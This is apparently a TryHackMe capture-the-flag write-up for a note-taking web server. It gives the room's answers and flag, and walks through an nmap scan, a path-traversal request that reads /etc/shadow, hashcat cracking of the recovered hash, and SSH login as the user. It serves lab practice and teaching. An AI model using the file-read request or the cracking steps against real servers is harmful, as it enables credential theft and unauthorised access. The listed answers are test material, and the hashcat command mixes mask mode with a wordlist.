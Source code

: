 ## Introduction

> Elf Charlie likes to make notes and store them on his server. Are you able to take advantage of this functionality and crack his password? 

> [Read the supporting materials here](./Supporting_Doc.html).

## Questions

> 1) What is Charlie going to book a holiday to?

td:lr Answer: **Hawaii**

> 2) Read /etc/shadow and crack Charlies password.

td:lr Answer: **password1**

> 3) What is flag1.txt?

td:lr Answer: **THM{4ea2adf842713ad3ce0c1f05ef12256d}**


===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan for TCP ports under 1000:

`nmap <ip> -T4` -- reveals open ports 22, 80  
open web browser --`<ip>`  
On webpage, under Note 3, will see the first answer: **Hawaii**

Check page source for more information on where the content of this webpage comes from:  
`view Page Source`  

![](./res/pic1.png)

There's a function that shows how the notes on webpage are being access:  
`<ip>/get-file/views%2Fnotes%2Fnote1.txt`  --reveals note1.txt content  
`<ip>/get-file/%2Fetc%2Fshadow` --reveals content of /etc/shadow

![](./res/pic2.png)

Charlie's password hash: **$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.**

Crack it using hashcat:  
`echo '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' > hash.txt`
`hashcat -a 3 -m 1800 hash.txt rockyou.txt`

![](./res/pic3.png)

We get Charlie's password: **password1**


Use SSH to log in as Charlie:  
`ssh charlie@<ip>`  -- password: password1  
`cat flag1.txt`  
Will get our answer: **THM{4ea2adf842713ad3ce0c1f05ef12256d}**







